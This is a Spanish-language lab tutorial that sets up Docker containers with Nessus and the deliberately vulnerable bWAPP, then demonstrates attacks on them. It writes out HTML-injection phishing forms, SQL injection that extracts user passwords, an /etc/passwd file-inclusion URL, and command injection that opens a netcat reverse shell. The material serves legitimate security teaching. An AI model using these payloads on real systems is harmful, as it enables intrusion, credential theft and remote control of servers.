





# IntroduccionCiberseguridad

Aquí vamos a ver cómo poner en marcha un laboratorio de herramientas de detección de vulnerabilidades y a la vez como podemos ensayar ataques de Hacking ético sobre una máquina vulnerable.

1. [Objetivos](#1-objetivos)
2. [Clonación del repositorio](#2-clonación-del-repositorio)
3. [Creación del laboratorio](#3-creación-del-laboratorio)
4. [Escaneo de vulnerabilidades con Nessus](#4-escaneo-de-vulnerabilidades-con-nessus)
5. [Hacking ético sobre bWapp](#5-hacking-ético-sobre-bwapp)

# 1. Objetivos

Entre otros:

- Ver cómo clonar un repositorio.
- Ver cómo podemos crear máquinas docker, y en concreto levantar un escenario multicontenedor.
- Conocer las herramientas de detección de vulnerabilidades, y en concreto `Nessus`.
- Introducción al Hacking ético a través de diferentes ataques a la máquina vulnerable `bWapp`.

# 2. Clonación del repositorio

## Crear carpeta y cambiarse a ella

- Busca y abre la aplicación `Windows PowerShell` en tu equipo

- Sitúate en la carpeta `Charlas`

```bash
mkdir -p C:\Users\usuario\Desktop\Charlas\IntroduccionCiber
cd C:\Users\usuario\Desktop\Charlas\  
```

## Descargar e Instalar Git
En esta dirección puedes encontrar el instalador de `Git Desktop` <https://central.github.com/deployments/desktop/desktop/latest/win32>. 

- Descargalo y lo instalas


- Pulsa en `Skip this step`.
  
- Introduce tu nombre y tu correo electrónico

Ya tendríamos la aplicación instalada


## Clonar repositorio

- Sobre la aplicación de Github-Desktop le damos a la opción de `Clonar un repositorio existente`:


- Nos vamos a la pestaña `URL`

- En `URL/username repository` pegamos el repositorio a clonar:

```
jmmedinac03vjp/IntroduccionCiberseguridad
```
- en `Local path`, el nombre de la carpeta que hemos creado:
   
```
C:\Users\usuario\Desktop\Charlas\IntroduccionCiber
```




Si todo ha ido bien se habrá clonado el repositorio y lo tendrás en dicha carpeta: 


- Dale al botón de `show in Explorer` y así puedes visualizar los contenidos



---

# 3. Creación del laboratorio

Vamos a crear ahora todo el laboratorio con el que vamos a trabajar.
Lo vamos a crear con una tecnología de virtualización llamada `Docker`, por lo que lo primero que hacemos es iniciar el programa que se va a encargar de ellos.

- Buscamos la aplicación `Docker Desktop` y la lanzamos en nuestro equipo.



- Desde el `Windows PowerShell` nos colocamos en la carpeta files/ de proyecto que hemos clonado. Por lo tanto escribimos en el terminal:

```bash
cd C:\Users\usuario\Desktop\Charlas\IntroduccionCiber\IntroduccionCiberseguridad\files
```

En esta carpeta tienes un archivo con nombre `docker-compose.yml` donde vienen definido la estructura de toda la virtualización que se va a crear.

El [archivo docker-compose.yml lo puedes descargar desde aquí](files/docker-compose.yml). 

- Iniciamos la virtualización desde el terminal:


```bash
docker-compose up -d
```


Podemos comprobar que se han creado todos los elementos en Docker Desktop o bien ejecutando docker compose ps desde el terminal.

```bash
docker-compose ps
```
Como podemos ver hemos creado 5 máquinas virtuales:

- Nessus es nuestra herramienta de escaner de vulnerabilidades. Podemos acceder a ella desde un navegador web https://localhost:8834 (Es posible que nos salga una advertencia de seguridad. Le damos a continuar). Accedemos a la máquina con usuario:usuario y contraseña:usuario.

- bwapp: Es una máquina que se ha hecho deliberadamente insegura para poder practicar. Para acceder a ella primero procedemos a la instalación desde un navegador en la dirección http://localhost:8081/install.php y después de hacer click sobre el mensaje “Click here to install bWAPP.” podemos acceder ya desde el login: http://localhost:8081/login.php con usuario:bee y contraseña: bug . Nos va a servir para ver en ella un gran número de vulnerabilidades.

- Kali: Es una distribución de linux. Tenerla dentro de la red nos permite poder ejecutar comandos, inspeccionar, e incluso probar ataques en la red. Para acceder al terminal de la máquina de Kali-linux, escribimos en el terminal (siempre situados en la carpeta del laboratorio): docker-compose exec kali bash. Se conectará a la MV y nos cambiará el prompt.

- WordPress: está compuesto por dos máquinas virtuales, una contiene la Base de Datos (WPdb) y otra la interfaz web(WPweb). Podemos acceder a ella, también desde el navegador web, en la dirección http://localhost:8080/ . Si la vamos a utilizar tendremos primero que efectuar el proceso de instalación. Después de unos minutos que tarda en instalarse, podemos acceder con el usuario y contraseña que hemos puesto.
Esta máquina también nos va a servir para ver las vulnerabilidades que contiene.


---

# 4. Escaneo de vulnerabilidades con Nessus

Como hemos comentado, para acceder a nuestra máquina virtual de Nessus ponemos en nuestro navegador web <https://localhost:8834> .

> Usamos el usuario: `usuario` y la contraseña: `usuario`


Una vez dentro de la interfaz web nos aparecen los escaneos que hemos realizado.


En la parte superior, a la derecha tenemos el botón `New Scan` para hacer un nuevo escaneo.


Tenemos gran variedad de escaneos diferentes, algunos de ellos están disponibles en la versión de prueba y otros sólo en la de pago.



Nosotros vamos a hacer dos, el primero es un descubrimiento de los equipos que hay en la red. En éste nos va a aparecer información sobre los equipos conectados a la red y los puertos que tienen abiertos, que en gran medida van a darnos información de las debilidades que pueden tener presentes.

## Descubrimiento de Hosts

Lo primero que vamos a hacer es un `Escaneo básico de red` para ver los equipos que hay en la red virtual que hemos creado con `Docker`
Le damos a `Nuevo Escaneo` y `Host Discovery`.
Estos son los datos que tendremos que poner en el campo Nombre y Target de el nescaneo de descubrimiento de redes.

Nombre:  ```Descubrimiento Hosts```
 
Target: ```172.18.0.0/24``` 

.

y le damos al botón `Launch` que aparece cuando pulsamos la flecha que está junto a `save`


Enseguida veremos cómo se está realizando el escaneo. Después de unos minutos, al darle sobre el enlace de `Descubrimiento Hosts` tenemos acceso a  los resultados.


Como vemos nos aparece la dirección IP de cada una de las máquinas presentes en el escenario y podemos acceder a la información de cada una de ellas. 
En la imagen de abajo vemos la información de la ip `172.18.0.1`


---

## Escaneo Básico de Red

Para ver un escaneo con más profundidad, vamos a realizar un escaneo avanzado de una máquina. En concreto vamos a utilizar la máquina de `Word Press`.

- Creamos un `New Scan` 

.

Estos son los datos que tendremos que poner en el campo Nombre y Target de el nescaneo de descubrimiento de redes.

Nombre:  ```Escaneo Wordpress```
 
Target: ```172.18.0.6``` 


Después de finalizado el proceso, podemos acceder a los datos de las vulnerabilidades encontradas:


Aquí podemos ver la lista:


Y podemos centrarnos en cada una de ellas donde encontramos información de dónde encontramos la vulnerabilidad, por qué se produce y  cómo solucionar el problema.


 
# 5. Hacking ético sobre bWapp

El hacking ético, también conocido como "hacking de sombrero blanco", es la práctica de usar técnicas de hacking para identificar y corregir vulnerabilidades en sistemas informáticos, redes y aplicaciones, con el objetivo de mejorar la seguridad, en lugar de explotar dichas vulnerabilidades para fines maliciosos. Los hackers éticos trabajan con el permiso de la organización, utilizando sus conocimientos de ciberseguridad para simular ataques y ayudar a fortalecer la protección de los sistemas. 

## Acceder a la WEB de la máquina bWapp

Antes de acceder a la máquina tenemos que proceder a la configuración de la base de datos desde el siguiente enlace:

<http://localhost:8081/install.php>

Pulsamos en `Click here`


y ya podemos ir a la pantalla de login:

<http://localhost:8081/login.php>


 
Para acceder usamos las credenciales

 **Usuario:** ```bee```

 **Contraseña:** ```bug```

Vemos cómo podemos establecer la seguridad de la máquina, que por defecto está en nivel **bajo** ( _level: low_)

Tras el proceso de login nos lleva a la página Portal.php donde podemos acceder a los diferentes ataques disponibles y además en cualquier momento podemos cambiar el nivel de seguridad. 


## Acceder al terminal de la máquina bWapp

Vamos a acceder al terminal de la máquina `bWapp` para ver sus archivos.
En el terminal del `Windows PowerShell` nos situamos en la carpeta `files` y nos conectamos a la máquina  docker de `bWapp`.

```bash
cd C:\Users\usuario\Desktop\Charlas\IntroduccionCiber\IntroduccionCiberseguridad\files
docker exec -it files-bwapp-1 /bin/bash
```
Como podemos apreciar el `PROMPT` del sistema cambia y nos indica que estamos con el usuario `root` en la máquina con identificador `12 caracteres`.


Ya estamos en el servidor web. Podemos ver que todos los archivos que se pueden acceder desde la web están en el directorio: `/var/www/html`. Si hacemos un listado de ese directorio:

directorio `/var/www/html`
```bash
cd /var/www/html
ls 
```


Vemos como vemos dos de los archivos que contienen el código de la web donde hemos accedido anteriormente: `login.php` e `install.php`

- Instalamos el editor de textos nano para poder ver y editar el contenido de los archivos:

```bash
apt update; apt install nano
```

Para ver el contenido de cualquier archivo sólo tenemos que escribir:


```bash
nano /ruta/al/directorio/archivo.php
```
# 5. Hacking ético sobre bWapp

Vamos a hacer algunos ataques sobre la máquina `bWapp`.
Como hemos comentado antes, la máquina bWapp es una aplicación que se ha hecho deliberadamente vulnerable para que podamos aprender cómo realizar ataques y sirva de entrenamiento.

Para realizar los diferentes ataques sobre la página de inicio de la máquina <http://localhost:8081/portal.php> seleccionamos el ataque bien en el cuadro de selección que tenemos en la parte inferior izquierda o bien en el cuadro desplegable de la superior derecha. Una vez seleccionado el ataque a realizar pulsamos el botón `Hack`.



## Inyección de HTML reflejada

En este caso vamos a seleccionar el ataque de `Inyección de HTML Reflejado` : <http://localhost:8081/portal.php>

Nos llevará hasta la página <http://localhost:8081/htmli_get.php>

Esta web consiste en que nosotros ponemos nuestro nombre y apellidos y nos muestra un saludo.

El problema surge cuando en vez de texto insertamos código `HTML` que damos lugar a que se ejecute. Por ejemplo, inserta en el campo `First Name`

```
https://www.whitescreen.online/es/pantalla-azul-de-la-muerte-windows/
```
y en el campo `Last Name`


```
<a href="https://www.whitescreen.online/es/pantalla-azul-de-la-muerte-windows/">Mensaje Urgente</a> 
```


```
<a href="https://www.whitescreen.online/es/pantalla-azul-de-la-muerte-windows/">| Pulsa aquí</a>

```

No sólo se muestra el texto que hemos querido sino también un hipervínculo que nos lleva a una página externa.


- Otro problema de no controlar el ingreso de datos HTML es que podríamos enviar un formulario haciendo creer al usuario que se debe loguear op introducir algún dato, y enviar esos datos a otra página.

```
<b>Usted ha sido desconectado. </b><br>
Ingrese su usuario y clave para continuar
```

```
<form action="sitiomalicioso.php">
  usuario:<br>
  <input type="text" name="usuario" value=""><br>
  clave:<br>
  <input type="text" name="clave" value=""><br><br>
  <input type="submit" value="Aceptar">
</form>
```


## Inyección SQL (GET/Search)

La página para probar ataque de inyección SQL es una página de búsqueda en una base de datos de películas. Así si buscas la palabra `man` aparecerán las películas `Iron Man` y `Man of Steel`.

- Probamos con:

```
iron' or 1=1#
```


Se nos muestran todos los resultados de las películas.

El operador de SQL `Union`. Nos permite combinar resultados de dos tablas diferentes.

- Con la siguiente inyección podríamos saber el orden de los campos de la Base de datos:

```
iron' union select 1,2,3,4,5,6,7 #
```


- Aquí podemos usar las funciones `user()` que nos devulve el usuario y host que está ejecutando el servidor, y @@version que nos muestra la versión de la BBDD.

```
iron' union select 1,user(),@@version,4,5,6,7# 
```


- Aquí vamos a suponer que se guarda información sobre los usuarios en la tabla con nombre `users` y vamos a intentar recuperar esa información:
```
iron' union select 1,login,password,email,5,6,7 from users #
```


De aquí podemos obtener información sobre los usuarios

## Inclusión de ficheros

Nos vamos al ataque `Remote & Local File Inclusion (RFI/LFI)`

Estas utilidades son para mostrar el contenido de un archivo guardado en el servidor, en este caso del idioma, pero si moldificamos la `url` y le indicamos el archivo `/etc/passwd` 

<http://localhost:8081/rlfi.php?language=/etc/passwd&action=go>


## Ejecución de Código

Este ataque se denomina `OS Command injection` lo tenemos en la siguiente enlace <http://localhost:8081/commandi.php>.
La funcionalidad que realiza es un` dns lookup` que sirve para consultar la información de un dominio DNS, incluyendo su dirección IP y otros registros asociados.
El problema que tenemos es que damos opción a que realice cualquier comando del sistema operativo ya que podemos usar los caracteres `;`, `&` y `&&` por los cuales podemos concatenar comandos.

```
www.nsa.gov&whoami
```


Esto nos muestra el usuario que está ejecutando el servidor pero podría ejecutar cualquier comando.

Podríamos abrir un terminal remoto a través de un tunel. 
```
www.nsa.gov&&& nc -vn 172.18.0.1 4444 -e /bin/bash
```


---
# Referencias

<https://www.solvetic.com/tutoriales/article/2916-pentesting-atacar-y-defender-aplicaciones-web-con-bwapp/>
